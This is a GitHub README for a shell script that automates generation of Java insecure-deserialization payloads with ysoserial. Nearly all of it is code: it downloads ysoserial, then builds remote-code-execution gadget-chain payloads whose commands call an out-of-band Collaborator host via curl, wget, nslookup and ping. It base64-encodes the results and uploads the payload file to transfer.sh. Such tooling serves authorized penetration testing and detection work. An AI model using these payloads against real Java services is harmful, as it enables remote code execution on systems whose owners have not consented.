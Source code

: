 # java-insecure-deserialization
<p align="center">
  <img width="460" height="300" src="https://github.com/nowak0x01/java-insecure-deserialization/assets/96009982/aaa3a093-5026-4250-8232-f23cab3b10a8">
</p>
This script automatically generates all payloads available in Ysoserial https://github.com/frohoff/ysoserial that lead to Remote code execution (RCE), using Out of Band techniques

Note: Payloads that could not be automated. <i>AspectJWeaver, FileUpload1, JSON1, Jython1</i> and <i>Wicket1</i>
```C
sudo docker run --rm adoptopenjdk/openjdk11 /bin/bash -c '

Collaborator="hufzwo32omf8ss00d9dyayy18sej29qy.oastify.com"
IP="" # for JRMPListener payload
Encoding="base64 -w0"

export TERM="xterm"
clear
printf "\n\e[1;37m[#]\e[0m Downloading latest ysoserial release \e[1;37m[#]\e[0m\n\n"
curl -LkO https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar && printf "\n\e[1;37m[#]\e[0m Download Completed! \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar >& out
printf "\n\e[1;37m[#]\e[0m Building Payloads (slow) \e[1;37m[#]\e[0m\n"
java -jar ysoserial-all.jar URLDNS "https://URLDNS.$Collaborator/" 2>&- | $Encoding >> payloads.inc
java -jar ysoserial-all.jar C3P0 "https://$Collaborator/:C3P0" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
java -jar ysoserial-all.jar Myfaces2 "https://$Collaborator/:Myfaces2" 2>&- | $Encoding >> payloads.inc
printf "\n" >> payloads.inc
[ "$IP" != "" ] && java -jar ysoserial-all.jar JRMPListener "$IP" 2>&- | $Encoding >> payloads.inc
for _payload in $(cat out | awk "{print \$1}" | grep -vE "^Y$|Usage:|Available|Sep|INFO:|Payload|-------");do
    java -jar ysoserial-all.jar $_payload "curl curl_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "nslookup nslookup_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "wget wget_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
    java -jar ysoserial-all.jar $_payload "ping ping_$_payload.$Collaborator" 2>&- | $Encoding >> payloads.inc
    printf "\n" >> payloads.inc
done
file=$(tr -dc 'A-Z0-9' </dev/urandom | head -c 20)
sort -u payloads.inc > $file
printf "\n\n\e[1;37m[+] The payloads have been uploaded [+]\n"
printf "U can download the file through that link: "; curl -Lsk --upload-file $PWD/$file https://transfer.sh/$file
echo
'
```
